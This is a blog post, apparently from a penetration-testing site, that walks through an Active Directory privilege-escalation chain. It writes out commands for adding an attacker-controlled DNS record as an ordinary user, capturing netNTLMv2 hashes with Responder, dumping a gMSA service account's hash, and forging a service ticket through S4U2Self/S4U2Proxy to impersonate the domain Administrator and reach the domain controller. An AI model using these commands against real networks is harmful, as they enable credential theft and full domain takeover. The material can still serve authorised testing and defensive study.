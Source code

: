 [back](/)

### Evil DNS zone and Constrained Delegation in Active Directory

Quite often during the attack on the Active Directory it turns out that the DNS server is used with default settings.

Thus, it is possible to add DNS entry with the rights of a regular domain user. The fact is that by default for the Authenticated Users group there are no restrictions on creating DNS records, such through access to LDAP.

![Image](/img/evil_dns/1.png)

```
python3 dnstool.py -u 'yourdomain.ru\Tiffany.Molina' -p password --action add -r web332211.domain.ru -d attacker-ip ldap-ip
```

![Image](/img/evil_dns/2.png)

![Image](/img/evil_dns/3.png)

After successfully adding a DNS entry associated with an IP attacker, you can get domain user netNTLM hash, that will access to the added DNS name fot example by smb or http with network netNTLM authentication. Moreover, this DNS record looks reliable, from the point of view of confidence in the resource. This can be used for targeted attacks.

So, after running Responder we get netNTLMV2 hash:

![Image](/img/evil_dns/4.png)

By collecting Active Directory dump and downloading it to the Bloodhound database, it became clear that the user Ted.Graves consists in the ITSupport group.

![Image](/img/evil_dns/5.png)

TED.graves can control the service account through the Group Managed Service Accounts functionality (GMSA), while having the ability to get password or NTLM belonging to SVC_INT user.

```
python3 gMSADumper.py -u username -p password -d domain.ru
```

![Image](/img/evil_dns/6.png)

SVC_INT user has the ability to request a service ticket and impersonate it for any user. Using in this case, the S4U2SELF / S4U2Proxy mechanism can be obtained by the privileges of the domain administrator.

![Image](/img/evil_dns/7.png)

```
getST.py -spn HOST/SQL01.DOMAIN 'DOMAIN/user:password'  -hashes :NTLM-hash -impersonate Administrator
```

![Image](/img/evil_dns/8.png)

After receiving the service ticket and export it to the environment, you can use the wmiexec.py to get interactive access to domain controller


<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)